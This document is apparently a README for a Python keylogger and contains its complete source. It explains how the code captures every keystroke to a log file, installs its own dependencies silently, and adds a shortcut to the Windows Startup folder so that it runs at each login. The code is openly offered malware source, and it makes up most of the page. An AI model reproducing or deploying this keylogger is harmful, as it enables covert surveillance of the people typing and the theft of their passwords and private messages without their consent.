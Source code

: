 

# Python Keylogger Documentation

## Overview
This Python keylogger captures keystrokes and logs them into a file. It runs in the background and can automatically start with the operating system. The captured keystrokes are saved in a file named `key_log.log`.

## Prerequisites
Before running the keylogger, ensure you have the following libraries installed:
- `pynput`: For capturing keyboard events.
- `plyer`: For displaying notifications (if desired).
- `pywin32`: For creating Windows shortcuts.

The script will check for these libraries and install any that are missing automatically.

## Installation
1. Ensure Python is installed on your system.
2. Download the script and save it as `keylogger.py`.
3. Run the script using Python:
   ```bash
   python keylogger.py
   ```

The script will automatically check for required packages and install any that are missing.

## Usage
Once the script is running, it will capture all keyboard inputs until the "Escape" key is pressed. The logged keystrokes will be saved in `key_log.log` in the same directory as the script.

### Automatic Startup
The keylogger creates a shortcut in the Windows Startup folder, ensuring it runs automatically whenever the user logs into Windows.

## Code Explanation

### Imports and Package Installation
```python
import subprocess
import sys
import os

def install(package):
    subprocess.check_call([sys.executable, "-m", "pip", "install", package])

def check_and_install():
    packages = ['pywin32', 'pynput', 'plyer'] 
    for package in packages:
        try:
            __import__(package)  
        except ImportError:
            install(package)  
```
- **subprocess**: Used for executing system commands to install packages.
- **sys**: Provides access to system-specific parameters and functions.
- **os**: Used for interacting with the operating system.
- **install**: A function to install a package using pip.
- **check_and_install**: A function that checks for the necessary packages and installs any that are missing.

### Logging Mechanism
```python
check_and_install()

import win32com.client
from pynput.keyboard import Key, Listener
from plyer import notification

log_file = "key_log.log"
log_content = ""
```
- **check_and_install()**: Calls the function to ensure required libraries are present.
- **log_file**: Specifies the name of the log file.
- **log_content**: A string that holds the recorded keystrokes.

### Key Press Handling
```python
def on_press(key):
    global log_content
    try:
        if key.char:
            log_content += key.char  
    except AttributeError:
        if key == Key.backspace:
            log_content = log_content[:-1]
        else:
            log_content += f" {key} "

    with open(log_file, "w") as f:
        f.write(log_content)
```
- **on_press**: A callback function triggered when a key is pressed. It appends the pressed key to `log_content` and writes it to `log_file`.

### Key Release Handling
```python
def on_release(key):
    if key == Key.esc:
        return False
```
- **on_release**: A callback function triggered when a key is released. If the "Escape" key is pressed, it stops the listener.

### Creating a Startup Shortcut
```python
def create_startup_shortcut():
    keylogger_path = os.path.join(os.path.dirname(sys.executable), "dist", "keylogger.exe")
    startup_folder = os.path.join(os.getenv("APPDATA"), "Microsoft", "Windows", "Start Menu", "Programs", "Startup")

    shell = win32com.client.Dispatch("WScript.Shell")
    shortcut = shell.CreateShortCut(os.path.join(startup_folder, "Keylogger.lnk"))
    shortcut.TargetPath = keylogger_path
    shortcut.WorkingDirectory = os.path.dirname(keylogger_path)
    shortcut.save()
```
- **create_startup_shortcut**: Creates a Windows shortcut to ensure the keylogger runs at startup.

### Main Listener
```python
create_startup_shortcut()

with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
```
- **Listener**: A context manager that listens for keyboard events. It calls `on_press` and `on_release` as keys are pressed and released, respectively.






